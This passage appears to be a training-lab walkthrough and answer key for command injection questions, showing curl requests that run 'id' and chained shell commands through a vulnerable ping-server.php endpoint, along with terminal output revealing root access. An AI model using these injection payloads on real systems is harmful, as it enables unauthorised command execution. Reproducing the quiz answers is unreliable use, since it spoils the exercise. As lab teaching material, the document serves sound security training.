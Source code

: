 From the output, students will know that the architecture of the web server is `x86_64`.

Answer: `x86_64`

# Command Injection

## Question 1

### "Exploit the command injection vulnerability of the target to execute an "id" command. Submit the privileges under which the server is running as your answer. Answer options (without quotation marks): "user", "www-data", "root""

After spawning the target machine, students need to exploit the command injection vulnerability and execute the `id` command:

Code: shell

```shell
curl -s http://STMIP:3003/ping-server.php/system/id
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s http://10.129.144.205:3003/ping-server.php/system/id

uid=0(root) gid=0(root) groups=0(root)
```

Answer: `root`

# Command Injection

## Question 2

### "To execute commands featuring arguments via http://<TARGET IP>:3003/ping-server.php/system/{cmd} you may have to use \_\_\_\_\_\_. Answer options (without quotation marks): "Encryption", "Hashing", "URL Encoding""

`URL Encoding` may need to be used, because for example, the following command injection payload will not work:

Code: shell

```shell
curl http://STMIP:3003/ping-server.php/system/cd .. && ls
```

```
┌─[us-academy-1]─[10.10.14.50]─[htb-ac413848@htb-q7l0dpr4ul]─[~]
└──╼ [★]$ curl http://10.129.202.133:3003/ping-server.php/system/cd .. && ls

curl: (6) Could not resolve host: ..
```
